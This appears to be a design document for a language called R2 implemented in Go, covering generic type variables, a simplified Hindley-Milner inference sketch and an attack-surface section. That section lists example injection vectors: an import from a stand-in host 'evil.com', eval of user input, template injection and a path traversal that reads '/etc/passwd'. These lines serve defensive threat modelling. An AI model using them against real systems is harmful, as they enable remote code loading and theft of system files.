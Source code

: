 ### Generics Type System

#### Type Variables and Constraints
```go
type TypeVariable struct {
    Name        string
    Constraints []TypeConstraint
}

type TypeConstraint interface {
    Satisfies(Type) bool
}

type GenericFunction struct {
    TypeParams []TypeVariable
    Params     []Type
    ReturnType Type
    Body       Node
}
```

#### Type Inference Algorithm
```go
// Simplified Hindley-Milner type inference
func InferType(expr Node, env *TypeEnvironment) (Type, error) {
    switch e := expr.(type) {
    case *NumberLiteral:
        return NumberType{}, nil
    case *Identifier:
        if t, ok := env.Get(e.Name); ok {
            return t, nil
        }
        return nil, UndefinedVariableError{e.Name}
    case *CallExpression:
        fnType, err := InferType(e.Callee, env)
        if err != nil {
            return nil, err
        }
        // Unify function type with argument types
        return UnifyFunctionCall(fnType, e.Args, env)
    // ... more cases
    }
}
```

## In-depth Security Analysis

### Attack Surface Analysis

#### Code Injection Vectors
```r2
// 1. Import-based injection
import "http://evil.com/malicious.r2" as evil

// 2. Eval-based injection (if implemented)
eval(userInput)  // Classic injection

// 3. Template injection
template(`Hello ${userInput}`)  // If template literals added

// 4. Filesystem traversal
io.readFile("../../../etc/passwd")
```
